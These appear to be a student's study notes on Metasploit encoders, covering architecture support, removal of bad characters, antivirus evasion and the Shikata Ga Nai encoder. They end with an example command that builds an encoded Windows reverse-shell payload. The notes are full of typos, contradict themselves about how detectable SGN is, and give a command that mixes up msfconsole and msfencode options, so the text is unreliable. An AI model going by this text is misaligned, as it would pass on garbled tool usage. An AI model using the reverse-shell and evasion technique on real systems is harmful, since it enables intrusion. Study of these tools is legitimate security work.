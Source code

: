 # Metasploit

## Encoders

Over the 15 years of existence of the Metasploit Framework, Encoders 
have assisted with making payload compatible with different processor 
architectures while at the same time helping with antivirus evasion. 
Encoders come into play with the role of  changin the payload to run on 
different operating systems and architectures. these architectures include:

```
x64     x86     sparc       ppc     mips
```

They are also needed to remove hexademcimal opcodes known as bad 
characters from the payload. Not only that but encoding the payload in 
different formats could help with the AV detection as mentioned above. 
However, the se of encoders strictly for AV evasion has dimished over 
time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.


Shikata Ga Nai (SGN) is one of the most utilized Encoding schemes
today because it is so hard to detect that payloads encoded through 
its mechanism are not universally undetectable anumore. Far fro it.
The name (仕方がない) means It cannot be helped or Nothing can be done 
about it, and rightfully so if we were reading this a few years ago.
However, there are another methodologies we will explore to evade 
protecion systems. This arcticle from FireEye details the why and the 
how of Shijata Ga Nai's previous rule over the other encoders.

## Selecting an Encoder
Before 2015, the Metasploit Framework had different submodules that 
took care of payload and encoders. They were packet separately from 
the msfconsole script and were called msfpayload and msfencode. These 
two tools are located in ```/usr/share/framework2```



Example of msfpayload

```bash
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfconsole -b '\x00' -f perl -e x86/shikata_ga_nai
```